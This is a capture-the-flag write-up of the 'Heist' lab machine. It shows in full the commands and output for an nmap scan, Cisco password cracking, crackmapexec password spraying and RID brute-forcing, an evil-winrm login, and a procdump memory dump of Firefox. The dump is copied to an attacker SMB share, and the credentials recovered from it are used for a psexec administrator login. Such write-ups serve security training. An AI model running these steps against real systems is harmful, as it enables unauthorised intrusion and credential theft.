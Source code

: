 # Writeup heist

## Scan

```bash
# Nmap 7.92 scan initiated Sun Sep 18 14:09:57 2022 as: nmap -sC -Pn -A -T5 -p- -oN fullnmap.txt -v 10.129.96.157
Nmap scan report for 10.129.96.157
Host is up (0.16s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-09-18T18:13:37
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   155.77 ms 10.10.14.1
2   156.31 ms 10.129.96.157

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 18 14:14:17 2022 -- 1 IP address (1 host up) scanned in 260.01 seconds
```

## Enumeration

In port 80, we found a web service running. That allows us to login with Guest User.
With Guest User, We can find an attachment "config.txt" with a cisco config file.
This file has usernames and crypt passwords. For password type "7 " we can use --> https://davidbombal.com/cisco-type-7-password-decryption/ and for type "5" we can use john.

> User List Created
> 
> ```textile
> Admin
> Hazard
> rout3r
> ```

> Password List Created
> 
> ```textile
> stealth1agent
> $uperP@ssword
> Q4)sJu\Y8qz*A3?d
> ```

## Exploitation

With user and password list, we can do a password spray attack using crackmapexec.

```bash
cme smb 10.129.96.157 -u usersfound.txt -p passwords.txt --continue-on-success
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
```

> Credentials Found
> 
> Hazard:**stealth1agent**

Using these credentials we can do some more enumeration with `--rid-brute` to discover local users to ceate another users wordlist.

```bash
cme smb 10.129.96.157 -u hazard -p stealth1agent --rid-brute   
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.129.96.157   445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.129.96.157   445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

> User List Created - 2
> 
> ```textile
> Administrator
> Guest
> DefaultAccount
> WDAGUtilityAccount
> None
> Hazard
> support
> Chase
> Jason
> ```

Another Password spray

```bash
cme smb 10.129.96.157 -u rid_brute_users.txt -p passwords.txt --continue-on-success 
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Guest:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Guest:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Guest:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\DefaultAccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\DefaultAccount:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\DefaultAccount:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\WDAGUtilityAccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\WDAGUtilityAccount:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\WDAGUtilityAccount:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\None:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\None:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\None:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Jason:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\Jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
```

> Credentials Found
> 
> Chase:**Q4)sJu\Y8qz*A3?d**

Login with Chase user via evil-winrm and get the flag.

```powershell
evil-winrm -i 10.129.96.157 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents>
```

## Privilege Escalation

Logged as Chase, we started looking for things that would allow us to do privilege escalation.

After a while of searching, we can see that a firefox process is running using the "ps" command. We can use this process to check your memory. For this we upload the procdump and dump the process.

> Command:
> 
> ```powershell
> ./procdump64.exe -accepteula -ma PID
> ```

Once the dump is done, we can use smbserver to send this file to our machine.

```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> net use z: \\10.10.14.83\share
The command completed successfully.

*Evil-WinRM* PS C:\Users\Chase\Documents> cd z:
*Evil-WinRM* PS z:\> cp C:\Users\Chase\Documents\firefox.exe_220919_014434.dmp .
```

With the transfer done, we can use the string command and search for passwords.With the transfer done, we can use the string command and search for passwords.

```bash
strings FILE | grep password
```

This way, we were able to find the password "4dD!5}x/re8]FBuZ" that belongs to the administrator.

After that, we will be able to login with administrator via psexec.

```bash
python3 /opt/impacket/examples/psexec.py 'administrator:4dD!5}x/re8]FBuZ'@10.129.96.157
```


